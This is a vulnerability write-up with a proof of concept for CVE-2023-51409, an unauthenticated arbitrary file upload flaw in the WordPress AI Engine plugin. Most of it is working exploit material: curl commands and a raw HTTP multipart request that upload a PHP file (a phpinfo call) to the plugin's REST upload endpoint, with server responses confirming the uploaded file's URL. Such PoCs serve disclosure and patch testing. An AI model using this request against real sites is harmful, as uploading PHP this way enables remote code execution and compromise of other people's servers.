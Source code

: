 # CVE-2023-51409
AI Engine: ChatGPT Chatbot &lt;= 1.9.98 - Unauthenticated Arbitrary File Upload via rest_upload


### Description:
The AI Engine: Chatbots, Generators, Assistants, GPT 4 and more! plugin for WordPress is vulnerable to arbitrary file uploads due to missing file type validation in the 'rest_upload' function in all versions up to, and including, 1.9.98. This makes it possible for unauthenticated attackers to upload arbitrary files on the affected site's server which may make remote code execution possible.

```
Severity: critical
CVE ID: CVE-2023-51409
CVSS Score: 9.8
CVSS Metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
Plugin Slug: ai-engine
WPScan URL: https://www.wpscan.com/plugin/ai-engine
Reference URL: https://www.wordfence.com/threat-intel/vulnerabilities/id/a3fc4bac-9be0-4a1c-b4bb-4384d80e22f7?source=api-prod
```

POC
---
CURL
```
$ cat test.txt
robbie.txt
$ curl -X POST http://wordpress.lan/wp-json/mwai-ui/v1/files/upload -H "Content-Disposition: form-data; filename=\"test.txt\"" -F "file=@test.txt" | jq -r
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   336  100   139  100   197   1738   2463 --:--:-- --:--:-- --:--:--  4602
{
  "success": true,
  "data": {
    "id": "dc05affbc88c6d731a8fc6d122cd3839",
    "url": "http://wordpress.lan/wp-content/uploads/2024/02/test-1.txt"
  }
}

$ curl http://wordpress.lan/wp-content/uploads/2024/02/test-1.txt
robbie.txt
```

RAW HTTP
---
Request

```
POST /wp-json/mwai-ui/v1/files/upload HTTP/1.1
Host: wordpress.lan
User-Agent: curl/8.1.2
Accept: */*
Content-Disposition: form-data; filename="test.txt"
Content-Length: 206
Content-Type: multipart/form-data; boundary=------------------------8ecd2b831e8d20f4
Connection: close

--------------------------8ecd2b831e8d20f4
Content-Disposition: form-data; name="file"; filename="test.php"
Content-Type: text/plain

<?php phpinfo(); ?>

--------------------------8ecd2b831e8d20f4--
```

Response
```
{
  "data": {
    "id": "1044f1ab4f6340fea9abecb331fe981c",
    "url": "http://wordpress.lan/wp-content/uploads/2024/02/test.php"
  },
  "success": true
}
```

